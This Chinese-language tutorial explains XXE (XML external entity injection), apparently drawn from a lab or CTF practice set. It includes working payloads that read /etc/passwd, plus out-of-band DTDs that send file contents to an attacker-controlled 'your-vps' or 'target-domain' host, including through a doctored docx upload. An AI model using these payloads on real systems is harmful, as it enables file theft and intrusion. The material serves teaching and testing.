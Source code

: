 # XXE

# 简介

**#在阅读本文之前，请先阅读 /基础知识/XML 章节**

![XXE%203b1954df08834d3485fe3b8ca3e1caa5/Untitled.png](XXE%203b1954df08834d3485fe3b8ca3e1caa5/Untitled.png)

如上图所示，绿色方框的内容为Request中的body内容，典型的xml格式

红色方框的内容则是Response中的body内容，也是典型的/etc/passwd文件格式

通过在使用xml格式的请求中插入DTD（图一第一处选中部分）及由DTD定义的额外元素（图一第二处选中部分），达到执行自定义命令的目的，这就是XXE(XML External Entity Injection) ，全称为XML 外部实体注入。

---

# 原理

如果你已经完成 /基础知识/XML 章节以及简介部分的阅读，不难发现，这又是一起不安全的标准设计（XML格式标准）导致的安全漏洞，DTD定义的实体被注入XML元素中，导致自定义命令执行。这一标准的设计本身违背了不信任原则。

正常的解决方案已经非常成熟，那就是禁止使用外部实体。因此本章的重点在于如何发现漏洞。

---

# 技巧

由于时代的发展，xml格式越来越少被用于直接数据传输（被json替代），只能在少数被允许上传xlsx、docx格式文件的网站找到这类漏洞存在的身影。

- xml格式数据传输
    - 内部DTD+有回显

    原-请求响应

    ![XXE%203b1954df08834d3485fe3b8ca3e1caa5/Untitled%201.png](XXE%203b1954df08834d3485fe3b8ca3e1caa5/Untitled%201.png)

    修改后-请求响应

    ```xml
    插入内部DTD：<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    并将productid的1修改成额外实体：&xxe;
    （命名并无任何强制要求，凭个人爱好即可）
    ```

    ![XXE%203b1954df08834d3485fe3b8ca3e1caa5/Untitled%202.png](XXE%203b1954df08834d3485fe3b8ca3e1caa5/Untitled%202.png)

    - 外部DTD+无回显数据带外（注意，标装机器无法使用外部DTD，内网也无法使用如DNSLOG的数据带外技巧）

    原-请求

    ![XXE%203b1954df08834d3485fe3b8ca3e1caa5/Untitled%203.png](XXE%203b1954df08834d3485fe3b8ca3e1caa5/Untitled%203.png)

修改后-请求响应

```xml
插入外部DTD：<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>

#exploit.dtd的内容
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'target-domain/?x=%file;'>">
%eval;
%exfil;

#上个dtd的内容为：读取本机hostname，并将获取的字符串插入对target-domain的get请求中
```

![XXE%203b1954df08834d3485fe3b8ca3e1caa5/Untitled%204.png](XXE%203b1954df08834d3485fe3b8ca3e1caa5/Untitled%204.png)

最终接收到的hostname信息

![XXE%203b1954df08834d3485fe3b8ca3e1caa5/Untitled%205.png](XXE%203b1954df08834d3485fe3b8ca3e1caa5/Untitled%205.png)

- docx、xlsx、pptx格式数据传输+数据带外（注意，标装机器无法使用外部DTD，内网也无法使用数据带外技巧）

    解压此类文件，获得三个文件夹和一个.xml文件，内容如下

    ![XXE%203b1954df08834d3485fe3b8ca3e1caa5/Untitled%206.png](XXE%203b1954df08834d3485fe3b8ca3e1caa5/Untitled%206.png)

    ![XXE%203b1954df08834d3485fe3b8ca3e1caa5/Untitled%207.png](XXE%203b1954df08834d3485fe3b8ca3e1caa5/Untitled%207.png)

    在<?xml>和<type>之间插入外部DTD

    ![XXE%203b1954df08834d3485fe3b8ca3e1caa5/Untitled%208.png](XXE%203b1954df08834d3485fe3b8ca3e1caa5/Untitled%208.png)

    ```xml
    <!DOCTYPE note [<!ENTITY % remote  SYSTEM "http://your-vps/test5.dtd">
    %remote;
    %all;
    %send;
    ]>
    ```

    ```xml
    #test5.dtd内容 （部署在vps上）
    <!ENTITY % file SYSTEM "file:///opt/flag/flag5">
    <!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://your-vps/index.html/?%file;'>">
    ```

    重新打包成.docx文件，vps开启监听，同时在上传接口进行上传，相关文件内容（/opt/flag/flag5）被显示在请求中（index.html/?）。

    ![XXE%203b1954df08834d3485fe3b8ca3e1caa5/Untitled%209.png](XXE%203b1954df08834d3485fe3b8ca3e1caa5/Untitled%209.png)

    ![XXE%203b1954df08834d3485fe3b8ca3e1caa5/Untitled%2010.png](XXE%203b1954df08834d3485fe3b8ca3e1caa5/Untitled%2010.png)